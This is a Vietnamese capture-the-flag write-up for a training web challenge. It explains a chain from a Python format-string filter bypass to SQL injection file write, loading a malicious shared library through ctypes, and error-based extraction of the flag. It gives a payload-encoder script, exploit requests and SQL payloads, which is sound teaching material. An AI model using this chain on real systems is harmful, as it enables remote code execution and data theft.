# doubleS (BKSEC Training 2026)
---
## Tổng quan
Trang web có một trang chủ và một trang login (trang login này có filter kí tự nguy hiểm và trả về lỗi nếu có). Sau khi đăng nhập thành công thì dẫn đến trang 404.

## Phân tích mã nguồn
### Config files
Đọc [Dockerfile](/src/Dockerfile), mình thấy backend sử dụng MySQL DBMS và add thêm role là *flask*: `RUN useradd -m flask`

Bên cạnh đó, flag được giấu ở /root/flag.txt, và chỉ có thể đọc được thông qua một executable `/readflag` được set SUID (flag này nghĩa là khi non-root user chạy /readflag thì trong lúc chạy, họ có quyền như root)

```Dockerfile
RUN echo "bksec{fake_flag}" > /root/flag.txt && \
    chmod 400 /root/flag.txt && \
    chown root:root /root/flag.txt

COPY ./readflag.c /readflag.c
RUN gcc /readflag.c -o /readflag
RUN rm /readflag.c
RUN chmod 4755 /readflag
```

[readflag.c](src/readflag.c)

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    system("cat /root/flag.txt");
    return 0;
}
```

Tiếp theo trong docker file có [init.sql](src/init.sql), thì trong này có khởi tạo một bảng users, một bảng flags và một admin credentials để đăng nhập


Cuối cùng là file [start.sh](src/start.sh)


### Source code

Đọc các endpoints.



Dev có định nghĩa thêm 2 class để trả về ngoại lệ cụ thể hơn khi xác thực user có lỗi

```python
# Custom Exceptions
class MaliciousCharError(Exception):
    """Malicious characters are detected."""
    pass


class NonPrintableCharError(Exception):
    """Non-printable characters are detected."""
    pass
```

Phần endpoints không có gì nhiều, mình tiếp tục đọc code của 2 hàm `execute_user_query` và `authenticate_user`.

- **execute_user_query**


- **authenticate_user**



Hàm authenticate_user liên quan tới khá nhiều class phức tạp được dev định nghĩa thêm bên ngoài. Mình tiếp tục đọc 2 class `InputValidator` và `SQLQueryBuilder`

1) **InputValidator**



2) **SQLQueryBuilder**





Đọc kĩ phần build_query thấy rằng hàm loop liên tục cho tới khi không còn dạng regex `{(w+)}` ở trong query nữa thì thôi.
Có một điểm đáng chú ý là nếu placeholder mà không phải username hoặc password thì giá trị của nó khi được gán vào query là một class **InputValidator**.

Ngoài ra chương trình có import 2 thư viện mà không dùng


## Phân tích lỗ hổng
Đọc qua src code, thấy rằng code mặc dù có filter kí tự nguy hiểm nhưng vẫn gắn thẳng untrusted data vào sql query thay vì dùng parameterized queries hay các kĩ thuật chống SQL Injection. Server trả về lỗi cụ thể cho user nếu có lỗi xảy ra thay vì chỉ trả về lỗi chung chung.
> Như vậy, ý tưởng chung là khai thác SQLi để chạy file /readflag, sau đó dùng error-based SQLi để extract flag.

Trong build_query, dev dùng **format_map**, cùng một dạng với **str.format()**, hàm mà thay vì chỉ đơn giản thay thế value vào các placeholder thì nó còn cho phép truy cập vào attribute hay index của một list thông qua `__getitem__` như trong ảnh:



Ở đây, server không chặn `__` và `{}` nên ta có thể tạo một placeholder riêng, cái mà sau đó được gán là class InputValidator. Dùng kĩ thuật Python format string injection như trong ảnh thì ta có thể truy cập list **FORBIDDEN_CHARACTERS** từ class **InputValidator**.

Thử với `username: x` và  `password: {{w}}`


1) Sau khi `{{w}}` được lắp vào query, code lại extract ra một placeholder là `w`. 
2) Trong vòng lặp tiếp theo, khi thấy trong string cần format có chứa cặp ngoặc nhọn liên tiếp, `.format()` coi đó là escape char thay vì là placeholder cần được thay thế. Nó coi `{{w}}` đơn giản là một literal string `{w}` (Khi này `replacement_map[w]` là **class InputValidator** nhưng không được sử dụng).
3) Tiếp tục, code vẫn extract ra placeholder `w`, và replacement_map[w] là InputValidator


Vì giờ `replacement_map[w]` không phải là string mà là một **class InputValidator**, code nhảy xuống nhánh else và trả về `replacement_map[w]("",key)` là một instance của class **InputValidato** với **input_value** là trống và **fieldname** là `w`. Đồng thời coi instance đó như một string. Nên khi được khởi tạo, Instance gọi method `__repr__` và trả về input_value (Vì nó là rỗng nên pass mọi filter). Và như trong ảnh thì phần password trong phần query cuối cùng là rỗng.

Sử dụng kĩ thuật ở trên để truy cập vào các kí tự bị cấm.


> Giải thích payload: Bởi vì extract_placeholder chỉ lấy placeholder mà bên trong ngoặc nhọn chỉ có chữ cái, nên phải tạo thêm một `{w}` để có replacement_map là **InputValidator**. Vì cuối cùng khi format `w` trả về rỗng nên không bị ảnh hưởng.

> `{w.FORBIDDEN_CHARACTERS[1]}` có dấu chấm và gạch chân ở dưới nên không match regex. Cụm này có tác dụng truy cập phần tử khi `w` nhận giá trị là Inpuvalidator

Với kĩ thuật trên thì bây giờ ta có thể thực thi lệnh SQL tùy ý. (payload ở username hay password đều được)

Mình viết script để tạo bypass payload dựa trên original payload và một helper function để đọc error:

```python
import string, requests, binascii, re

URL = 'http://127.0.0.1:5002'
#============= Grep error ====================================================================

pattern = r'<li\ class="flash\-error">[\s\S]*?</li>'
def grep_error(response):
    result = re.findall(pattern,response)
    if result:
        print(result[0])
    else:
        print("No error found.")
    return

#============= Generate valid SQL query ======================================================
FORBIDDEN_CHARACTERS = ['"', "(", ")", " ", "," , "'", "\\", "/", "*", "+" "%", "-", ";", "#"] # length = 13
variable = dict(zip(FORBIDDEN_CHARACTERS, string.ascii_lowercase))

def gen_payload(a):
    var = variable[a]
    idx = FORBIDDEN_CHARACTERS.index(a)
    #username = '{x}{x.FORBIDDEN_CHARACTERS[5]}'    
    return f"{{{var}}}{{{var}.FORBIDDEN_CHARACTERS[{idx}]}}"

def encode(sql):
    pay_load = ""
    
    for i in sql:
        if i in variable:
            pay_load += gen_payload(i)
        else:
            pay_load += i
            
    return pay_load

```

Sử dụng script trên để tìm số cột trả về của query hoặc có thể đọc **init.sql** thì thấy nó có 3 cột =)):




Đến đây thì cần tìm cách nào đó để chạy được file binary /readflag kia. Thấy có hai thư viện không được dùng. Search **setuptools** thì ra công cụ để quản lý việc tải các package khác từ source code



Mình search docs của ctypes thì đây là một thư viện cho phép load shared libraries vào process. Nghĩa là file có ELF header (thường là file có đuôi .so ở trên linux: `shared object`)


Theo như mình tìm hiểu, `.so` file có thể được compile từ file `.C`. Và trong C có một tính chất `__attribute__((constructor))` khi định nghĩa một hàm. Hàm này sẽ ngay lập tức chạy khi file được load vào process, chạy trước cả hàm main mà không cần phải gọi hàm hay thao tác.


> Như vậy, ý tưởng chung bây giờ là viết một file .so có constructor function ở máy server và load nó dùng ctypes

Tìm trên github có cách viết file dùng mysql query


Theo như payload, ta sẽ viết chương trình C ở máy cá nhân trước rồi compile ra shared object. hex encode nó (để bảo toàn giá trị của bytes) rồi dùng sql query để viết ở máy chủ. Mình dùng **dumpfile** thay cho **outfile** vì **dumpfile** viết raw string, giá trị không đổi còn **outfile** thì nó có thể thêm dấu xuống dòng. Vì backend kết nối tới MySQL với account root - được cho full quyền nên khi thao túng được query, ta có thể viết file, đọc file thoải mái.

`gcc -shared -fPIC exploit.c -o exploit.so`


> Giải thích payload: dùng flag `-shared` để tạo shared object, flag `-fPIC` là một trong các flag bắt buộc phải đi kèm.
```python
Code above, not write again

s = requests.Session()
hexed_payload = binascii.hexlify(open('exploit.so','rb').read()).decode()
destination = '/tmp/bbt.so'
username = encode(f"' UNION SELECT 0x{hexed_payload},'','' INTO DUMPFILE '{destination}'-- -")
r = s.post(url = URL, data = {'username':username, 'password': 'bbt'})
grep_error(r.text)
```

> Giải thích payload: Sau khi compile được shared object, đọc dưới dạng bytes rồi hex encode nó. Dùng 2 cột còn lại là empty string vì để null thì khi dumpfile, sql sẽ ghép value 3 cột lại, nếu trong đó có null sẽ gây lỗi.


Tiếp tục, load file với `ctypes`:

Suy nghĩ ban đầu: `{x}{x.__init__.__globals__[ctypes].CDLL(/tmp/bbt.so)}`.  

Ta sẽ định nghĩa một placeholder `x` bên ngoài để nhận giá trị là class **InputValidator**. Sau đó khi được thế vào placeholder `{x}` biến mất, phần x còn lại sẽ truy cập phương thức `__init__` của class **InputValidator**. Từ phương thức `__init__` có thể tiếp tục truy cập biến `__globals__`. Vì app import **ctypes** nên mình định gọi tới hàm khởi tạo object **CDLL(name)** với name là path tới file `.so`. Tuy nhiên thì trong hàm str.format() hoặc tương tự như format_map của CPython thì nó chỉ cho phép truy cập attribute (với dấu `.`) hoặc index của list (với cặp ngoặc vuông `[]`) nên cách này thất bại.

Đọc lại phần docs ở trên ta có sẵn `ctypes.cdll` được dev viết sẵn là một object CDLL


Để tìm hiểu cách hoạt động của `ctypes.cdll` thì mình tìm đọc source code. Trước tiên là hàm khởi tạo `__init__` của class `CDLL`




Cuối cùng, nếu CDLL(name) được gọi bình thường mà không có handle thì server trả về handle là hàm `dlopen`: một hàm cốt lõi của C có tác dụng tải một thư viện liên kết động (file .so) vào tiến trình.

Đọc tiếp `ctypes.cdll`


Như vậy, ta không cần chạy function mà chỉ cần truy cập phần tử `cdll[path_to_file]` là code tự gọi tới `CDLL(path_to_file)` có tác dụng load file.

Payload bây giờ sửa thành: `{x}{x.__init__.__globals__[ctypes].cdll[/tmp/bbt.so]}`

Tuy nhiên nếu dùng payload trên để gửi thì sẽ gặp tình trạng không load được file vì chưa biết được pathname do `/` sẽ được encode thành dạng `{h}{h.FORBIDDEN_CHARACTERS[]}` và format_map có thể chưa lắp h vào.


Nên ta sẽ double curly braces để delay lệnh load thêm 1 loop cho **pathname** được hình thành trước.

`{{x}}{{x.__init__.__globals__[ctypes].cdll[/tmp/bbt.so]}}`

Luồng payload sẽ được decode như sau:

Payload đầu vào (đã được encode): `{{x}}{{x.__init__.__globals__[ctypes].cdll[{h}{h.FORBIDDEN_CHARACTERS[7]}tmp{h}{h.FORBIDDEN_CHARACTERS[7]}bbt.so]}}`

Sau loop đầu tiên: `{x}{x.__init__.__globals__[ctypes].cdll[/tmp/bbt.so]}`

Loop thứ hai chạy lệnh: `InputValidator.__init__.__globals__[ctypes].cdll[/tmp/bbt.so]}`


```python
Code above, not write again

s = requests.Session()
username = encode('{{x}}{{x.__init__.__globals__[ctypes].cdll[/tmp/bbt.so]}}')
r = s.post(url = URL, data = {'username':username, 'password': 'bbt'})
grep_error(r.text)
```


Như vậy là mình đã thành công load file .so để nó tự động chạy binary `/readflag` và ghi output ra `/tmp/bbt`. Theo suy nghĩ ban đầu, ta cần extract flag thông qua error-based SQLi.

Check payload trên PayloadAllTheThings:


Mình sẽ tận dụng tính năng `LOAD_FILE` để đọc file mình đã ghi flag ra và `EXTRACTVALUE` để cố tình tạo lỗi chứa flag ở trong.

Payload: `' AND EXTRACTVALUE(1,CONCAT('~',LOAD_FILE('/tmp/bbt')))-- -`

> Giải thích payload: extractvalue sẽ lấy dữ liệu từ XML bằng XPATH. Vì CONCAT(...) không đúng định dạng nên sẽ trả lỗi. `LOAD_FILE('/tmp/bbt')` sẽ trả về nội dung của file. Tương tự như trên, đăng nhập MySQL bằng account root nên đọc file thoải mái.

> Có thể thay `'~'` thành hex `0x7e`



Có được flag.

## PoC ở [đây](Sol/exploit.py)

Nhớ viết file .C và compile ra file .so trước khi chạy PoC trên.



> Flag: ***bksec{rc3_i5_3a5y_r1gh7_???}***

## Tổng hợp các kĩ thuật bảo mật được sử dụng trong bài này:
### 1. WAF Bypass bằng Python Format String (Object Introspection)

- Vấn đề: Web chặn các ký tự nhạy cảm như ', /, \.

- Kỹ thuật: Lợi dụng lỗ hổng cấu hình của hàm **format_map()**. Thay vì gõ ký tự bị cấm, dùng cú pháp `{x}{x.FORBIDDEN_CHARACTERS[index]}` để moi chính danh sách các ký tự bị cấm từ bên trong class **InputValidator** của mã nguồn ra để sử dụng lại.

### 2. SQL Injection - Ghi file tùy ý (Arbitrary File Write / INTO DUMPFILE)

- Vấn đề: Cần đưa mã độc lên server nhưng không có chức năng upload.

- Kỹ thuật: Dùng SQL Injection (đã được bọc bởi kỹ thuật 1) tiêm lệnh `UNION SELECT 0x..., '', '' INTO DUMPFILE '/tmp/bbt.so'`. Kỹ thuật này biến chuỗi Hex (mã binary của thư viện C) thành một file vật lý nằm trên ổ cứng của server.

### 3. Tự động kích hoạt mã độc bằng C Constructor (`__attribute__((constructor))`)

- Vấn đề: File .so đã lên server nhưng nằm im, không ai gọi thì không chạy được hàm bên trong.

